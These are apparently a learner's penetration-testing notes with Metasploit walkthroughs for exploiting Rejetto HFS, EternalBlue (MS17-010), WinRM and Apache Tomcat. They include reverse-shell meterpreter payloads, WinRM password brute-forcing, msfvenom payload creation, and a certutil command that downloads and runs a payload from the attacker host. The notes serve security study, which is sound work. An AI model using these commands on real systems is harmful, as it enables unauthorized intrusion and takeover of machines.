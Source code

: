 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 




###  Exploiting Vulnerable Apache Tomcat Web server 

- Apache Tomcat is open source Java servlet web server 
- used to build dynamic websites and web applications based on the Java software platform 
- Apache Tomcat uses HTTP protocol 
- Apache uses TCP port 8080 by default 

Difference between Apache and Apache Tomcat? 
- Standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP 
- the Apache Tomcat web server is **primarily** used to host dynamic websites or web applications developed in Java. 
- Apache Tomcat V8.5.19 is vulnerable to remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server. 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) search for exploit for tomcat: `search type:exploit tomcat_jsp ` 
6) `use exploit/multi/http/tomcat_jsp_upload_bypass `
7) in options you do not see payload but when you type info you see more info about the payload. for this exploit you can only use a jsp (java) payload 
	`set payload java/jsp_shell_bind_tcp`
8) specify shell command - target is windows so we can use cmd: `set SHELL cmd`
	now we have access to target but not in meterpreter session but this is a command shell session. Lets out that in the background `control + z `
9) set up meterpreter session: 
	1) open new tab 
	2) generate payload with msfvenom (windows meterpreter): `msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=kali LPORT=1234 -f exe > meterpreter.exe `
	3) set up simple webserver within current directory to host the files: `sudo python -m SimpleHTTPServer 80 `
	4) go back to previous windows (tomcat) with simple shell session and get the session back: `sessions` -> `sessions 1 ` 
		1) download the files on target system, hosted on webserver: `certutil -urlcache -f http://kali-ip/meterpreter.exe meterpreter.exe 
		2) check if file is downloaded on target: `dir` 
		3)  terminate the webserver after successfull download: control + c 
10) set up handler:
		1) create resource script: `vim handler.rc `
			1) `use multi/handler
			2) `set PAYLOAD windows/meterpreter/reverse_tcp `
			3) `set LHOST kali  ip` 
			4) `set LPORT 1234`
			5) `run` 
		2) `msfconsole -r handler.rc `
11) execute meterpreter payload on target system, in tomcat window run: `.\\meterpreter.exe `






